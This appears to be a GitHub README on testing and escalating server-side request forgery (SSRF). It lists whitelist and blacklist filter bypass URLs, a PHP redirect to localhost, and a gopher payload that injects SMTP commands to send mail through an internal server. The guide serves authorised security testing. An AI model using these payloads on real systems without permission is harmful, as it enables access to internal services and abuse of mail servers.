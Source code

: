 # SSRF
## SSRF Methodology Flowchart
Since I've seen so many people ask what to do once they get a request back to their collaborator instance, I created this flowchart to present what I usually do to test and escalate SSRFs.  
## Disclaimer
I am sure there are a few other ways of bypassing ssrf filters which I did not include, however this flowchart only shows the ones I personally test against.
<img src=https://github.com/iustin24/SSRF/blob/main/iustinSSRFflowchart.png>
## False Positives:
DNS queries only are rarely exploitable, and should never be reported without any additional impact.

When using your listener as an email domain `test@burpcollaborator.com`, recieving SMTP + DNS queries are not signs of SSRF. It's just how SMTP works and should never be reported. There's been edge cases where the payload `test@burpcollaborator.com`, lead to http requests. If that's the case, SSRF might be possible. See [d0nut's Piercing the veal](https://medium.com/@d0nut/piercing-the-veal-short-stories-to-read-with-friends-4aa86d606fc5) story 4. 
## Sources: 
### Whitelist filter bypasses
Some common whitelist filter bypasses I test against:
```
https://target.com@attacker.com
https://attacker.com/target.com
https://target.com.attacker.com
```
### Blacklist filter bypasses (decimal, hex, octal)
Inspired from [EdOverflow's blogpost on exploiting Ruby's Resolv](https://edoverflow.com/2017/ruby-resolv-bug/)  
http://0177.1:22/  
http://0x7f.1:22/  
http://127.000.001:22/  
See more at [PayloadsAllTheThings SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

### PHP Redirect
The value appended to location will be the url your page will redirect to. You can also play around with different status codes other than 301, such as 302,303,307.
```
<?php
header("Location: http://127.0.0.1", TRUE, 301);
exit();
?>
```
### SMPT Gopher payloads
Inspired from [d0nut's Piercing the veal](https://medium.com/@d0nut/piercing-the-veal-short-stories-to-read-with-friends-4aa86d606fc5) 
```
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```
Payload taken from [PayloadsAllTheThings SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
### Exploiting incosistencies in url parsers + DNS Rebdinding
Orange Tsai's blackhat presentation explains this perfectly. ( 
[PDF slides](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) + 
[Youtube presentation](https://www.youtube.com/watch?v=R9pJ2YCXoJQ&ab_channel=BlackHat) )  
I also highly recommend watching Liveoverflow's video  ([PHP include and bypass SSRF protection with two DNS A records ](https://www.youtube.com/watch?v=PKbxK2JH23Y&ab_channel=LiveOverflow)) which discusses url parsing incosistencies, while also touching on DNS Rebinding.
### More SSRF Resources
[Jdonsec's list of SSRF Resources](https://github.com/jdonsec/AllThingsSSRF)
